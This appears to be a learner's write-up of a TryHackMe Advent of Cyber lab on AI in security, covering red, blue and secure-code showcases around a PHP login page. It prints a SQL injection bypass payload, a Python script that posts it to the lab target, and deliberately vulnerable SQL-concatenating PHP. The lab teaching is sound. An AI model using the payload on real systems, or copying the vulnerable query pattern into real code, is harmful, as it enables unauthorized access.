

# Advent of Cyber 2025 – Day 4: Beginner AI Security Tutorial (Van SolveIT)

> TryHackMe room: Advent of Cyber 2025 – Day 4
> Theme: **AI in Cyber Security** using the fictional company **TBFC – The Best Festival Company** and their AI assistant **Van SolveIT**.

---

## 1. High‑level Summary

* TBFC replaces their old chatbot **Van Chattaty** with a new AI assistant **Van SolveIT**.
* Goal of the room: show *practical* ways AI can support:

  * **Red Team** – offensive security (exploit generation).
  * **Blue Team** – defensive security (log analysis & detection).
  * **Software Security** – secure code review.
* Lab structure:

  * You interact with Van SolveIT via a web UI with stages.
  * You also have:

    * **Target machine**: vulnerable web app (PHP login page, SQLi‑vulnerable).
    * **AttackBox**: Kali‑style box with browser + terminal.

---

## 2. Theory: AI in Cyber Security

### 2.1 Core capabilities of AI

| AI feature                           | Cyber‑security use                                                                                   | Chinese gloss |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------- | ------------- |
| **Processing large amounts of data** | Correlate logs, network flows, EDR alerts across many systems.                                       | 海量数据处理        |
| **Behaviour analysis**               | Learn a "baseline" of normal behaviour; detect anomalies such as strange logins or traffic patterns. | 行为分析 / 基线检测   |
| **Generative AI (GenAI)**            | Summarise long logs, reports or policies; explain context behind alerts.                             | 生成式 AI / 文本总结 |

> Key idea: AI is not a silver bullet. It **augments** humans by handling boring / high‑volume tasks so humans can focus on judgment‑heavy work.

### 2.2 Defensive security (Blue team)

* AI agents can:

  * Continuously parse telemetry (logs, flows, endpoint events).
  * Add contextual info (asset owner, geo, past alerts).
  * Help triage: grouping similar alerts, highlighting likely incidents.
  * In some setups, trigger automated playbooks: isolate hosts, block IPs, disable accounts.
* Limitation: models can misclassify events or over‑react; output must be *reviewed* and bounded by rules.

### 2.3 Offensive security (Red team)

* AI can:

  * Clean up noisy scanner results, cluster findings.
  * Help write PoCs or wrapper scripts for known vulnerabilities.
  * Summarise OSINT (public profiles, leaked creds, tech stacks).
* Risks:

  * Auto‑generated payloads may be **unsafe** (race conditions, DoS) or simply incorrect.
  * You must still honour **scope and rules of engagement**; don’t unleash autonomous exploitation.

### 2.4 Software security

* AI is weak at writing truly secure code but useful for:

  * **SAST‑style** reviews: spotting obvious injection points, insecure APIs.
  * Suggesting safer patterns: prepared statements, parameterised queries, input validation, etc.
* Typical workflow:

  1. Human writes code.
  2. AI highlights potential issues + explains impact.
  3. Human validates and applies fixes.

### 2.5 Key considerations / caveats

* **Hallucinations**: AI can fabricate facts, APIs, or CVEs; never assume 100% correctness.
* **Unpredictable impact**: unsafely used AI may over‑load a client system (e.g., aggressive fuzzing or concurrency bugs).
* **Data privacy**: uploading logs / code / customer data to 3rd‑party AI may break policy or law.
* **Model security**: models themselves can be attacked (prompt injection, data poisoning, model theft). Hardening them is its own discipline.
* **Accountability**: you are still responsible for actions taken based on AI output.

---

## 3. Lab Topology & Workflow



* **AttackBox** – the browser + terminal you use.
* **Target** – web server at `http://<MACHINE_IP>:5000` with a PHP login form.
* **Van SolveIT** – AI assistant with 3 showcases:

  1. Red Team
  2. Blue Team
  3. Software Security

---

## 4. Stage 2 – Red Team Showcase

### 4.1 Vulnerability identified

* File: `login.php`.
* Issue: **SQL Injection (SQLi)** on the `username` field.
* Pattern: user input is concatenated directly into an SQL query without sanitisation or parameterisation.
* Payload used by AI:

```text
username = "alice' OR 1=1 -- -"
password = "test"
```

> Chinese: SQL 注入 (SQL Injection) – 通过拼接恶意输入到 SQL 语句中来绕过认证或操控数据库。

### 4.2 Python exploit script

* AI generates a simple script using the `requests` library:


```python
import requests

username = "alice' OR 1=1 -- -"
password = "test"

url = "http://MACHINE_IP:5000/login.php"  # must be updated

payload = {"username": username, "password": password}
response = requests.post(url, data=payload)

print("Status:", response.status_code)
print(response.text)
```

Steps:

1. Copy code from Van SolveIT.
2. On AttackBox:

   * `nano script.py` (or `vi script.py`).
   * Paste the code.
   * Replace `MACHINE_IP` with the actual IP (e.g. `10.65.150.158`).
3. Run: `python3 script.py`.
4. Inspect the response body:

   * Confirms **login bypass**.
   * Contains **Flag #1** for the room (paste it in the THM question).


### 4.3 Manual verification via browser

* Navigate to `http://<MACHINE_IP>:5000/login.php`.
* Use the same credentials:

  * Username: `alice' OR 1=1 -- -`
  * Password: `test`
* You should see something like:

```text
Exploit successful!
FLAG{...}
```

* Confirms that:

  * The SQL injection works.
  * AI‑generated script matched the manual exploit.

---

## 5. Stage 3 – Blue Team Showcase

### 5.1 Example log line

The AI shows an HTTP access log entry similar to:

```text
198.51.100.22 - - [03/Oct/2025:09:03:11 +0100] "POST /login.php HTTP/1.1" 200 642 "-" "python-requests/2.31.0" "username=alice%27+OR+1%3D1+--+-&password=test"
```

Breakdown:

* **Source IP**: `198.51.100.22` – attacker (AttackBox).
* **Method / path**: `POST /login.php` – login endpoint.
* **Status code**: `200` – request accepted (even though malicious).
* **User‑Agent**: `python-requests/2.31.0` – strongly suggests an automated script, not a browser.
* **Query body (decoded)**:

  * `username = alice' OR 1=1 -- -`
  * `password = test`
  * Classic SQLi pattern (`OR 1=1`, comment `--`).

### 5.2 What the Blue‑team AI does

* Parses the log line and highlights:

  * Suspicious **User‑Agent** (scripted client).
  * Presence of SQL keywords like `OR` and `1=1` and comment markers `--` in a login field.
  * Correlates source IP with an unusual pattern of requests.
* Produces a natural‑language explanation, e.g.:

  * This is likely a **SQL injection attempt** against `/login.php`.
  * Source IP to be investigated/blocked.

### 5.3 Practical lessons

* Even simple rules (regex on `OR 1=1`, user‑agent anomalies) can detect basic attacks.
* AI can speed up **triage and explanation** for junior analysts.
* Still need:

  * Proper log collection (WAF, web server logs).
  * Thresholds and correlation (repeated attempts, multiple accounts, etc.).

---

## 6. Stage 4 – Software Security Showcase

### 6.1 Vulnerable PHP snippet

Simplified version:

```php
$user = $_POST['username'] ?? '';
$pass = $_POST['password'] ?? '';

$query = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";
$result = mysqli_query($conn, $query);
```

Problems:

* User input (`$user`, `$pass`) is directly interpolated into the SQL statement.
* No input validation, escaping, or prepared statements.
* Any `' OR 1=1 -- -` input fully changes the logic of the query.

### 6.2 How the AI explains it

* Identifies specific vulnerability: **SQL Injection**.
* Explains why:

  * Concatenation of unsanitised input into SQL.
  * Database executes attacker‑controlled SQL.
* Suggests mitigation:

  * Use **prepared statements / parameterised queries**.
  * Validate and sanitise input.
  * Apply least‑privilege DB accounts.


Example fix (PHP + mysqli):

```php
$stmt = $conn->prepare('SELECT * FROM users WHERE username = ? AND password = ?');
$stmt->bind_param('ss', $user, $pass);
$stmt->execute();
$result = $stmt->get_result();
```

> Takeaway: AI is a helpful *SAST assistant*, not a replacement for secure‑coding knowledge.


---

## 7. Room Questions / Flags (placeholders)

You will encounter at least two TryHackMe questions:


1. **Red‑team script output flag**

   * Obtained from running `python3 script.py` against `http://<MACHINE_IP>:5000/login.php`.


   * **Record here:** `FLAG_RED = "FLAG{...}"`.

2. **Final showcase flag**

   * Shown after completing all three stages and clicking **Complete Showcase** in Van SolveIT.


   * **Record here:** `FLAG_FINAL = "FLAG{...}"`.

(Replace the placeholders with the actual flags you get in your run.)


---

## 8. Personal Takeaways / Notes

* **AI ≠ magic** – treat it as a powerful junior assistant:


  * Great at pattern‑matching, summarising, and boilerplate code.


  * Bad at guarantees, edge cases, and responsibility.


* Always:

  * Verify AI‑generated exploits on a safe lab target.


  * Re‑read AI‑suggested code fixes for logic errors or security regressions.


  * Consider privacy before pasting real logs or proprietary source into online tools.


* For future study:

  * Explore TryHackMe room **“Defending Adversarial Attacks”** to see how to harden AI models themselves.


---

## 9. Mini Glossary (中英术语)

* **SQL Injection (SQLi)** – SQL 注入，向查询语句中插入恶意 SQL 片段的攻击方式。
* **Red Team** – 红队，模拟攻击方，测试防御效果的团队。
* **Blue Team** – 蓝队，防御方 / 安全运营团队。
* **SAST (Static Application Security Testing)** – 静态应用安全测试，直接分析源代码的安全工具或流程。
* **DAST (Dynamic Application Security Testing)** – 动态应用安全测试，在运行中的应用上进行安全测试。
* **Baseline** – 基线，表示系统在“正常”状态下的行为统计。
* **Telemetry** – 遥测数据，在安全领域通常指日志、网络流、告警等运行数据。
